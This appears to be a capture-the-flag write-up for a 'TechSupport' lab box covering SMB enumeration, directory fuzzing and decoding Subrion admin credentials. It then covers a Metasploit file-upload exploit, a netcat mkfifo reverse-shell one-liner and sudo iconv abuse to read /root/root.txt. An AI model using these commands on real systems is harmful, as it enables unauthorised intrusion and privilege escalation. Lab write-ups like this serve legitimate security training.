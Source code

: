 ```yaml
---
aliases: []
sticker: emoji//1f469-200d-1f4bb
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |
| 139  | SMB     |
| 445  | SMB     |



# RECONNAISSANCE
---

We got `smb` enabled, let's try anonymous login:

![](cybersecurity/images/Pasted%2520image%252020250411151007.png)

There we go, we got an interesting share, let's check the contents inside of it:

![](cybersecurity/images/Pasted%2520image%252020250411151101.png)

We got something called `enter.txt`, let's read the contents:

```
cat enter.txt

GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```

We got credentials for the WordPress site, let's check the website:


![](cybersecurity/images/Pasted%2520image%252020250411151659.png)

We can fuzz and we find this:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.224.191/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.224.191/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

wordpress               [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 165ms]
test                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 161ms]
```


If we check the `test` directory, we can see this:

![](cybersecurity/images/Pasted%2520image%252020250411151834.png)


In the `wordpress` directory, we can go to `wp-login.php` and test the credentials we got earlier:

```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk
```


![](cybersecurity/images/Pasted%2520image%252020250411152301.png)

They don't work, seems like they are not the credentials for WordPress, other stuff we are missing is the `/subrion` directory, if we try accessing it we get this:


![](cybersecurity/images/Pasted%2520image%252020250411152549.png)

There's a redirection, if we follow it:

![](cybersecurity/images/Pasted%2520image%252020250411152610.png)

It changes the host, seems weird, what if we try changing it back to the real host:

![](cybersecurity/images/Pasted%2520image%252020250411152727.png)

No response still, seems like we are trying to access an invalid resource, maybe `/subrion/subrion` does not exist, we can try reading `robots.txt` and check if it works, let's change it in the base request:

![](cybersecurity/images/Pasted%2520image%252020250411153009.png)

There we go, it does exist, we got some stuff:

```
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```


If we remember the message from `smb`, we can go inside of `panel` and edit the `/subrion` directory, which could mean we can use these credentials inside of the panel:

![](cybersecurity/images/Pasted%2520image%252020250411153208.png)


```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk
```

But wait, there is something that needs to be done with these still, let's proceed to exploitation.



# EXPLOITATION
---

```
Subrion creds

admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]

```


Let's use CyberChef with the `magic` operation, we can see the following:



![](cybersecurity/images/Pasted%2520image%252020250411153349.png)

There we go, we got the real password:

```
admin:Scam2021
```


![](cybersecurity/images/Pasted%2520image%252020250411153512.png)

There we go, we got inside of the panel, let's check for an exploit regarding this version of `subrion`, we are dealing with `subrion 4.2.1`:

![](cybersecurity/images/Pasted%2520image%252020250411153614.png)

We got `Arbitrary File Upload`, the module is on `metasploit` so we can use it to ensure it works:

![](cybersecurity/images/Pasted%2520image%252020250411154612.png)

There we go, we got the shell, we can migrate to `netcat` 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP 9001 >/tmp/f
```


![](cybersecurity/images/Pasted%2520image%252020250411154740.png)

There we go, we got our netcat shell, let's proceed with privilege escalation.



# PRIVILEGE ESCALATION
---

Let's stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](cybersecurity/images/Pasted%2520image%252020250411154905.png)

If we use linpeas, we can see this:

![](cybersecurity/images/Pasted%2520image%252020250411155553.png)

![](cybersecurity/images/Pasted%2520image%252020250411155606.png)


```
scamsite:ImAScammerLOL!123!
```

Let's use this credentials in ssh:

![](cybersecurity/images/Pasted%2520image%252020250411155627.png)

Let's check our sudo privileges:

```
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```

We can run `iconv`, let's check it on GTFOBins:

![](cybersecurity/images/Pasted%2520image%252020250411155740.png)

Nice, let's read `root.txt`:


```
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/root.txt
```

![](cybersecurity/images/Pasted%2520image%252020250411160756.png)
```
scamsite@TechSupport:~$ sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/root.txt
851b8233a8c09400ec30651bd1529bf1ed02790b
```

![](cybersecurity/images/Pasted%2520image%252020250411160820.png)

